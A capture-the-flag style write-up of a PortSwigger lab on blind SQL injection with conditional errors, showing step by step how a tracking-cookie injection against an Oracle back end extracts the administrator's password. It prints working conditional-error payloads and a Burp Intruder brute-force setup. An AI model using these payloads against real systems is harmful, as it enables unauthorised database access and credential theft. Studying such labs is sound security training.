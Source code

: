 # Lab: Blind SQL injection with conditional errors

Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Known information

- vulnerable to blind SQL injection
- parameter: value of tracking cookie
- Result: No visible difference in page, but returns message on database error
- database contains table 'users' with columns 'username' and 'password'
- Goal: Login as user 'administrator'

## Query

The query will look something like

```sql
SELECT trackingId FROM someTable WHERE trackingId = '<COOKIE-VALUE>'
```

In example case, the cookie contains this content
`Cookie: TrackingId=Hhpmds8u7A7Wf4TH; session=CjLImZazM0kQSZvcI7rV4kieQhRygEzJ`

I will omit the complete cookie content from now on and only provide the string appended to the TrackingId value.

## Steps

### Confirm vulnerable parameter

Due to the type of vulnerability, we can neither see any result of the query nor any difference in output based on the truth-value of some condition. However, if we can craft requests that cause (or don't cause) a database error based on a condition we inject, we can infer the truth value based on the fact whether an error is show or not.

So as a first step we need to confirm that the parameter is vulnerable by crafting requests that give `normal` and `error` answers.

Injecting a single quote raises a server errror, injecting two single quotes does not. This indicates an injection possibility, so try injecting some SQL statements. Injecting `'||(SELECT+null)||'` still shows an error, however injecting `'||(SELECT+null+FROM+dual)||'` does not. Therefore the database driving the page is an Oracle DB.

### Find 'normal' and 'error' statements

On the [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet), a conditional error example is given: `SELECT CASE WHEN (<CONDITION>) THEN to_char(1/0) ELSE NULL END FROM dual`

For the `normal` query, we take an input that evaluates to `FALSE`, thus not hitting our division by zero.

```sql
SELECT trackingId FROM someTable WHERE trackingId = X'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'
```

The content of the cookie for the `normal` case that displays the page as normal is

`'||(SELECT CASE WHEN (1=2) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

The `error` case has a condition that evaluates to true, thus causing the database to execute the division by zero which results in an `internal server error`:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM dual)||'`

---> Now we have a way to distinguish the result of a boolean condition.

### Confirm database table and columns

Next step is to confirm that the users table actually exists in the database. For this, I select from it and use the oracle version of limiting the number of output rows:

`'||(SELECT username||password FROM users WHERE rownum=1)||'`

---> It shows the page, confirming that this is a valid query and thus, that the table name and both column names are valid as well.

Just to be on the safe side, confirmed that invalid names in either of the fields result in an invalid query and an `internal server error`.

### Confirm user exists in database

To confirm that the user exists in the database it is unfortunately not possible to inject a simple `'||(select username from users where username='administrator')||'`. This is a valid statement regardless of the existance of the user. As such, it shows the page regardless of the username used.

To cause an error, we extend the example by performing the division by zero if the username exists. This statement results in an `internal server error`, indicating that the query resulted in the division by zero:

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

Changing the username to an arbitrary value, the page is shown. This confirms that the condition `1=1` and the following division by zero depends on whether the `FROM users WHERE...` part returns something.

This confirms that the user `administrator` exists in the database.

### Get length of password (could be hash as well)

Getting the length is done easily be adding the `LENGTH` function at the end of the SQL condition.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and LENGTH(password)=1)||'`

This will show the page, indicating that the `1=1` check was never executed. Using Burp Intruder, I test all numbers from 1 to 50 as length, and get this result:

![Length of password](img/length_of_password.png)

--> Password is exactly 20 characters long

### Enumerate password of administrator

Now that we have the length of the password, we can brute force each character individually. If the database would store a hash of the password, we could extract the hash for offline cracking.

`'||(SELECT CASE WHEN (1=1) THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator' and SUBSTR(password,1,1)='a')||'`

This shows the page, indicating that the first letter is not an `a`. Using Burp Intruder again to brute force all 20 characters.

![Brute force password](img/brute_force_password_query.png)

Attack type: *Cluster bomb*

- *Payload 1*: numeric sequential, 1...20
- *Payload 2*: Brute force - for real-life, add special characters

Filtering on server errors again, we can read the password: `3bk8bdchxubqft2tgsxr`

![Brute force password, result](img/brute_force_of_password_result.png)

### Alternative

It is also possible to move the conditional check (e.g. the length of substring part) into the condition of the `SELECT CASE WHEN` portion.

`'||(SELECT CASE WHEN (substr(password,1,1)='a') THEN to_char(1/0) ELSE NULL END FROM users WHERE username='administrator')||'`

For the length, the string is shown in this picture:

![Condition in a different location](img/condition_different_location.png)

## Try login

![Login successful](img/Win.png)
